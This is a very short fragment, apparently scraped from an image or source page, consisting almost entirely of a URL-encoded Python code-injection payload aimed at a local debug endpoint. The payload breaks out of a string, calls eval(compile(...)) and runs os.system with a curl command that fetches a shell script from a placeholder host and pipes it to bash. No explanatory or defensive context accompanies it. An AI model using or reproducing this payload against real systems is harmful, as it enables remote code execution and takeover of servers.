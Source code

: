 http%3a/127.0.0.1/debug'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("curl+http%3a//L@ip/shell|bash")','a','single'))%2b'